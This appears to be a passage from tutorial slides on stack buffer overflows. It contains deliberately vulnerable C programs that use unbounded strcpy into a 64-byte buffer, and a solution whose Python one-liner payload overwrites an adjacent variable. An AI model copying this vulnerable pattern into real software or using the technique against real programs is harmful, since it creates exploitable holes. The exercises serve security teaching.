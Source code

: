 ## Exercise - More precision

<small>

`exercise02.c` in github

```c
int main(int argc, char **argv) {
  volatile int modified;
  char buffer[64];

  if (argc == 1) {
    errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if (modified == 0x61626364) {
    printf("you have correctly got the variable to the right value\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
  }
}
```
</small>

---

## Solution

<small>
Notice `a` is `0x61` in hex.

Also, as we are overflowing *up* the stack, we must reverse the payload characters.
</small>

```bash
$ ./exercise02 $(python -c 'print "A"*64 + "dcba"')
you have correctly got the variable to the right value
Segmentation fault (core dumped)
```

---

## Example - another vector

```c
int main(int argc, char **argv) {
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");
  modified = 0;
  strcpy(buffer, variable);

  if (modified == 0x0d0a0d0a) {
    printf("you have correctly modified the variable\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
  }
}
```

---